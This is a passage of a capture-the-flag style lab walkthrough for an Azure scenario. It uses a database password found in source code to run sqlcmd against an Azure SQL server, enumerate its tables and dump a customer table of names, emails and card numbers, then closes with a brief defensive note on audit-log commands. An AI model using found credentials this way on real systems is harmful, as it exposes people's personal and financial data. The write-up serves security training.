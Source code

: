 We find a connecting string for an azure SQL instance at the well-known domain `database.windows.net`. We can use `sqlcmd` since it's installed in the current session. Let's enumerate the database
```
PS C:\home> sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P 'V%#J3c5jceryjcE' -d customerdevneddb -Q "SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'"
sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P 'V%#J3c5jceryjcE' -d customerdevneddb -Q "SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'"
TABLE_NAME                                                                                                                      

--------------------------------------------------------------------------------------------------------------------------------

CustomerData



(1 rows affected)
```

Let's dump the table, which reveals PII (personally identifiable information) of Mega Big Tech customers
```
PS C:\home> sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P 'V%#J3c5jceryjcE' -d customerdevneddb -Q "SELECT * FROM CustomerData"
sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P 'V%#J3c5jceryjcE' -d customerdevneddb -Q "SELECT * FROM CustomerData"
ID          FirstName                                          LastName                                           Email                                                                                                CreditCardNumber                

----------- -------------------------------------------------- -------------------------------------------------- ---------------------------------------------------------------------------------------------------- --------------------------------

         20 Haruto                                             Watanabe                                           haruto.watanabe@globalretail.com                                                                     1234567890123456                

         21 Liam                                               Johnson                                            liam.johnson@autoadvance.com                                                                         2345678901234567                

<SNIP>
```
# Defense 
This section is from [lab's defense section](https://pwnedlabs.io/labs/azure-recon-to-foothold-and-profit)

Microsoft Graph module is usually used to know user's login information (last logged in timestamps etc.)
```
Install-Module Microsoft.Graph -AllowClobber
Connect-MgGraph -Scope AuditLog.Read.All
```
